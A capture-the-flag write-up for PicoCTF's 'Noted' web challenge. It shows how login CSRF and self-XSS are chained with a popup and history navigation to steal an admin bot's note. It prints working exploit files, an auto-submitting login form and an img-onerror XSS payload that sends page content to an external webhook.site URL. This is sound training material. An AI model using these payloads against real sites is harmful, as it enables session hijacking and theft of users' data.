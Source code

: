 # Noted - PicoCTF Writeup

## Description:


I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right? Note that the headless browser used for the "report" feature does not have access to the internet.
(Note: in the real competition the bot *was* actually connected to the internet, b/c the bot for live art, another challenge, needed to be connected to the internet. The solve is about the same though)

## Site Overview:

##### /login

Standard login page

##### /register

Standard register page

##### /notes

Once logged in, users can post notes, short text posts that can be viewed here. You cannot view other people's notes. 

##### /new

Create a new note

##### /report

Report url to admin

## Solution

The solution to this is very interesting, but also very aggravating because I found the components to it the first time I looked at the challenge, but it took me three days of banging my head against the wall to put them together. When I first went over the source code, I wrote these notes in a comment in the source code:


Weird things
 * insecure session cookie?
 * about:blank movement
 * incognito mode
 * slowmo (debug purposes?)
 * to lower case?
 * login/register doesn't have csrf protection
 * self xss possible via notes


Most of them turned out to be irrelevant, but those last two are very important. First of all, self xss is possible via notes, meaning that by using a standard ``` <img src=c onerror="alert(1)"> ``` we can acheive xss. However, I originally dismissed this, as I didn't think I could escalate it into real xss. However, the key to doing this was hidden in the second to last "weird thing" - that the login and register functions didn't have csrf protection. The /new endpoint is protected like so:

```javascript

fastify.post('/new', {
		schema: noteSchema,
		preHandler: fastify.csrfProtection
	},

```

The /login endpoint, however, has no such protection. But you may be asking yourself, how can this be used to escalate self xss into real xss. In order to figure this out, I had to think outside the box, or rather, the **window**. The exploit that I evenutally came up with was composed of four steps:

1. Send the bot a link to my own site, which spawns a pop up window which goes to a different page on my site. 

2. Use a script in the popup window to log into my account on the noted website.

3. Send the original window back to the page with the flag using ```js 	history.go(-1); ```

4. Use the self-xss on my account to steal the flag and send it back to my site. 

The code for this exploit is as follows:


index.html

```html

<html lang="en" xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta charset="utf-8" />
  
    <title></title>
</head>
<body>
<script>
	window.open('frame.html','popupwindow','width=450,height=250,menu=0,status=0');
	history.go(-1);
  
</script>
</body>
</html>

``` 

popup.html

```html

<!DOCTYPE html>
<html lang="en" xmlns="http://www.w3.org/1999/xhtml">

<head>
  <meta charset="utf-8" />
  <title></title>
</head>

<body>

  <form id="form2" action="http://0.0.0.0:8080/login" method="POST">
    <input type="text" name="username" placeholder="username" value="payloadFinal2">
    <br><br>
    <input type="password" name="password" placeholder="password" value="payloadFinal2">
    <br><br>
    <input type="submit" value="Submit">
  </form>
  <script>

    var fo = document.getElementById("form2");
    fo.submit();
  </script>

</body>

</html>

```

XSS Payload

```html

<img src=c onerror="document.location='https://webhook.site/f275e53f-185c-4cdf-8d2b-13354f32b231/?'+window.parent.document.querySelector('p').innerHTML">

```

And then the flag:

picoCTF{p00rth0s_parl1ment_0f_p3p3gas_       }

## Review:

This was a very interesting challenge because it required you to think of a creative solution, without necesarily needing much technical knowledge. The exploit itself is quite simple, but thinking of it was hard. (It didn't help that I went down soooo many rabbit holes overthinking the hints)